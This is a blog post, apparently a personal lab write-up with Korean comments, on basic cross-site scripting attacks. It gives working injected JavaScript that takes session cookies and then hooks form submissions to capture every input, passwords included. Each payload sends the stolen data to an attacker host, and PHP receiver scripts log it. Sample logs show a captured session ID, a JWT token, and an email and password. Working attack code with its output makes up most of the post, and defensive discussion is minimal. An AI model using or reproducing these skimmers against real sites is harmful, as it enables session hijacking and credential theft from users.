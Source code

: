 ```yaml
---
layout: post
title: XSS Basic
description: About the XSS
date: 2024-11-13 02:35:00 +0900
categories: [Technical Labs]
tags: [XSS]
pin: false
math: false
mermaid: false
image:
  path: commons/xss/title.webp
---
```

<!-- categories: [Technical Concepts Summarized, Technical Labs, Technical Terms, Useful Apps To Help With Technology] -->

## Overview
XSS을 이용한 기본적인 Session hijacking과 Form action hijacking을 구현해보고자 한다.

### Session Hijacking
JS code to inject into your website
```javascript
var cookieData = document.cookie; // 사용자의 쿠키를 가져온다.
var attackURL = "http://192.168.10.130/xss.php?cookie="; // xxx.php파일로 쿠키를 전달할 URL.
new Image().src = attackURL + cookieData; // 이미지의 경로로 URL을 전달하여 해당 URL를 실행시킨다.
```

Server code to receive the session
```php
$logFile = 'xss.log';
if (isset($_GET['cookie'])) {
    $cookieData = isset($_GET['cookie']) ? $_GET['cookie'] : 'No cookie';
    
    if (isset($_GET['cookie'])) {
        $logData = "[" . date('Y-m-d H:i:s') . "] Cookie: " . $cookieData . "\n";
    }
    file_put_contents($logFile, $logData, FILE_APPEND);
}
```

Saved files
```
[2024-11-13 03:20:03] Cookie: PHPSESSID=8l7socimgt2ef7ra8bbmhdn26f; jwt_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiMTUiLCJlbWFpbCI6IndoZ0BnbWFpbC5jb20iLCJleHAiOjE3MzE0Mzg0MDF9.IS8LaGsne0apR3JBms1chsH5UNYp6viKYts7ggPNNR8
```

<br>

### Form Action Hijacking
JS code to inject into your website
```javascript
document.addEventListener('DOMContentLoaded', function() { // 컨텐츠가 모두 로딩된 후 실행
  var form = document.querySelector('form');
  
  form.addEventListener('submit', function(event) { // 모든 form의 submit이 클릭될 때 실행
    // 모든 input 요소의 값을 수집합니다.
    var inputs = document.querySelectorAll('input');
    var data = [];

    inputs.forEach(function(input) {
        var id = input.id ? "id='" + input.id + "'" : "";
        var name = input.name ? "name='" + input.name + "'" : "";
        var value = input.value ? "value='" + encodeURIComponent(input.value) + "'" : "value='empty'";

        // id, name, value를 모두 포함한 데이터를 추가합니다.
        var combined = [id, name, value].filter(Boolean).join(", ");
        data.push(combined);
    });

    // 모든 입력 데이터를 연결하여 공격자 서버로 전송
    var attackURL = "http://192.168.10.130/xss.php?data=" + encodeURIComponent(data.join("; "));
    new Image().src = attackURL;
  });
});
```
- 모든 form의 모든 input을 로깅합니다.
- 공격자의 입장에서 저장된 값을 쉽게 파악할 수 있도록 input의 id와 name의 vaule를 함께 기록합니다.

Server code to receive the session
```php
$logFile = 'xss.log';
if (!empty($_GET)) {
  $logData = "[" . date('Y-m-d H:i:s') . "]\n";

  foreach ($_GET as $key => $value) {
      // 각 입력 필드의 키와 값을 로그에 저장
      $logData .= $key . " = " . $value . "\n";
  }

  $logData .= "---------------------------\n";

  // 로그 파일에 데이터 기록
  file_put_contents($logFile, $logData, FILE_APPEND);
}
?>
```

Saved files
```
[2024-11-13 03:22:03] 
data = id='id_email', name='email', value='whg%40gmail.com'; id='id_password', name='password', value='1234'; value='on'
```

